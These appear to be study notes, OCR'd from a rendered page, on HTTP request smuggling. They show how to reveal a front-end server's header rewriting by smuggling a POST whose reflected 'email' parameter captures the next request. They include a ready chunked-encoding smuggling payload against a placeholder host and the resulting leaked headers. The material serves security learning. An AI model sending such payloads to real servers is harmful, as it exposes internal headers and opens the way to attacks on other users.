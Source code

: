   - Find a POST request that reflects the value of a request parameter into the application's response
  - shuffle the parameters so that the reflected parameter appears last in the message body
  - smuggle this request to the back-end server, followed directly by a normal request whose rewritten from you want to reveal

- eg - an application that reflects the value of the email parameter

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

- that results in

```html
<input id="email" value="wiener@normal-user.net" type="text" />
```

- for this application, the following request smuggling attack can be used to reveal the rewriting that is performed by the front-end server

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

- this requests will be written by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and reflect this value back in the response to the second request

```html
<input
  id="email"
  value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
..."
/>
```
